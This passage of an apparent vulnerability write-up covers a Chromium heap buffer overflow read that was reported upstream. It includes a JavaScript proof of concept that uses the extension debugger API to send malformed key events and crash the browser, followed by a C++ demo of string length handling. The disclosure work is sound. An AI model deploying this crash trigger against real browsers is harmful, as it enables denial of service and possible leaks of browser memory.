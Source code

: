 ```javascript
var atabid;
chrome.windows.create({ url: "about:blank", type: "normal" }, (w) => {
  atabid = w.tabs[0].id;
  chrome.debugger.attach({ tabId: atabid }, "1.3", function () {
    setInterval((g) => {
      chrome.debugger.sendCommand({ tabId: atabid }, "Input.dispatchKeyEvent", {
        type: unescape("keyDown"),
        modifiers: -1,
        TimeSinceEpoch: -129,
        text: unescape("%uA8E9%5E%uD866%uDD5E"),
        unmodifiedText: unescape("%uD834%uDD6F%uDB43%uDD46"),
        keyIdentifier: unescape("%26%3D%uDB40%uDCF6%u0660"),
        code: unescape("%7C%uE468"),
        key: unescape("%uC79B%uD84A%uDFF9%uD834%uDD66%uDB42%uDDE5%uD85E%uDFD1"),
        windowsVirtualKeyCode: -128,
        nativeVirtualKeyCode: 16,
        autoRepeat: false,
        isKeypad: false,
        isSystemKey: false,
        location: 4096,
        commands: ["≤áÄí-"],
      });
    }, 100);
  });
});
```

Once we were able to reliably crash the browser it turned out to be an upstream
issue and so it was reported to them. The bug report is now public and you can
see it [here](https://bugs.chromium.org/p/chromium/issues/detail?id=1276331).

# What Happened
The bug is due to `unmodifiedText` (line 11 in the last screenshot) was handled
in the browser process without taking account of null termination which lead to
a
[heap buffer overflow](https://docs.microsoft.com/en-us/cpp/sanitizers/error-heap-buffer-overflow?view=msvc-170#example---classic-heap-buffer-overflow)
(read), as [caseq@](https://bugs.chromium.org/u/2585305731/) (assigned to this
bug) mentions: “…That said, this may lead to us sending a piece of browser
memory into renderer.”

Let’s take a closer look:

```cpp
#include <uchar.h>
#include <stdio.h>
#include <string>

int main(void)
{
    char16_t char16[] = u"ABCD";
    std::u16string text16(u"ABCD");
    printf("size of char16 = %zu\n", sizeof char16 / sizeof *char16);
    printf("size of text16 = %zu\n", text16.size());
    
}
```
Out:
```
PS C:\Users\test\Desktop\mkhtbr> ./test.exe
size of char16 = 5
size of text16 = 4
```
